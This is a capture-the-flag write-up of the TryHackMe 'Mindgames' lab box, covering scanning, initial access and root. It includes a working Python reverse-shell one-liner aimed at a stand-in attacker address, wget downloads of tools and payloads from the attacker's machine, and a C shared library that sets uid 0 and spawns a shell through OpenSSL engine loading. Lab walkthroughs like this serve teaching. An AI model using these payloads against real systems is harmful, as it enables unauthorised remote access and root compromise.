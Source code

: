 # TryHackMe Mindgames Writeup

Challenge Link: [Mindgames](https://tryhackme.com/room/mindgames)

Mindgames is a hard rated box on TryHackMe. We're tasked with enumerating, gaining initial access, then a somewhat tricky privilege escalation using a Library Load via OpenSSL.

## Recon

There wasn't that much enumeration to do since we only found 2 ports open: 22 running ssh and 80 running a HTTP server from our NMAP scan.

```markdown
# Nmap 7.80 scan initiated Tue Jun 16 23:26:12 2020 as: nmap -sC -sV -o nmap 10.10.91.145
Nmap scan report for 10.10.91.145
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We see that port 80 is open, so I decided to run a GoBuster scan to see if we could find anything. After about 10 minutes of scanning, I figured there were no directories on the site.
```markdown
root@kali:~/THM/mindgames# gobuster dir -u 10.10.91.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.91.145
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/17 10:21:52 Starting gobuster
===============================================================
Progress: 19932 / 87665 (22.74%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/06/17 10:29:03 Finished
===============================================================
```

## Initial Shell

Let's go check out the page!
![image]({{0xtaylur.github.io}}/assets/mindgames_page.png)

Hmmm, very intersting. Seems as if the the page decodes the _Brainfuck_ programming language. Let's see what happens when we throw the "Hello, World" section into the textbox.
![image]({{0xtaylur.github.io}}/assets/hello_world.png)

It just prints _"Hello, World"_. Now let's see what happens when we try it with the Fibonacci brainfuck text.
![image]({{0xtaylur.github.io}}/assets/fibonacci.png)

So it seems like it it runs the actual brainfuck progamming language. Let's see if we can try to get a reverse shell with this knowledge. I headed over to the [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and used the python reverse shell code.
```markdown
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

After I changed the default IP in that code block to my tun0 IP.(You can find that out by using the command _ifconfig_ in your terminal).I started a netcat session listening on port 1234. I then headed over to a brainfuck encoder to convert it, let's throw this code into the mindgames site and see if we can get an initial shell.

We successfully get a reverse shell as user: _mindgames_
![image]({{0xtaylur.github.io}}/assets/initial_shell.png)

From here, we can go back one directory and read into _user.txt_
![image]({{0xtaylur.github.io}}/assets/user.png)

## Privilege Escalation

Let's start off with using LinEnum to see if we can look into any interesting files that we can use to start our privilege escalation. On your host machine, change into your directory where you have _LinEnum_ stored. If you do not have LinEnum you can get it [here](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) by using the _wget_ command.

On your host machine, start a SimpleHTTPServer on port 8000 by using this command.
```markdown
python -m SimpleHTTPServer
```

Change into the /tmp directory on your reverse shell, we can use the _wget_ command to put LinEnum.sh on the machine so we can run it.
```markdown
$ wget YOUR_IP:8000/LinEnum.sh
--2020-06-17 15:36:21--  http://YOUR_IP:8000/LinEnum.sh
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

     0K .......... .......... .......... .......... .....     100%  106K=0.4s

2020-06-17 15:36:22 (106 KB/s) - ‘LinEnum.sh’ saved [46631/46631]
```

Now let's make it an executable file, by using _chmod +x LinEnum.sh_. Run LinEnum by using "./LinEnum.sh"

After reading through LinEnum we find that _/usr/bin/openssl_ has [POSIX](https://uwsgi-docs.readthedocs.io/en/latest/Capabilities.html) capability.
![image]({{0xtaylur.github.io}}/assets/openssl.png)

After I bit of research I found a library load via OpenSSL using the C programming language. Create a C file named _engine.c_ and put this code block inside of it.
```markdown
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```

After we have made this C file, we must compile it using this command.
```markdown
gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -Lcrypto a.o
```

Once compiled set up another SimpleHTTPServer and grab the engine.so file from your host machine onto the reverse shell.
```markdown
$ wget YOUR_IP:8000/engine.so
--2020-06-17 15:55:53--  http://YOUR_IP:8000/engine.so
Connecting to YOUR_IP:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16024 (16K) [application/octet-stream]
Saving to: ‘engine.so’

     0K .......... .....                                      100% 71.8K=0.2s

2020-06-17 15:55:54 (71.8 KB/s) - ‘engine.so’ saved [16024/16024]
```

We can now open GTFOBins and search for an OpenSSL Library Load.
![image]({{0xtaylur.github.io}}/assets/gtfo.png)

We can now run this command but switch out "./lib.so" with "./engine.so"
![image]({{0xtaylur.github.io}}/assets/got_root.png)

We are now root! We should now be able to cat the root flag.
![image]({{0xtaylur.github.io}}/assets/root.png)
